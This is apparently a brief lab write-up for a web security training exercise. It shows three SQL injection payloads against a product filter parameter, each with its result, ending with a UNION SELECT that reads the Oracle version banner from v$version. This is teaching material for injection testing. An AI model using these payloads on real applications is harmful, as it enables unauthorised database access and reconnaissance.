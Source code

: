 # Querying database version on Oracle

`/filter?category=Pets'+UNION+SELECT+NULL+FROM+dual--`: Internal Server Error

`/filter?category=Pets'+UNION+SELECT+NULL,+NULL+FROM+dual--`: Ok (2 columns)

`/filter?category=Pets'+UNION+SELECT+Banner,+NULL+FROM+v$version--`: Solved

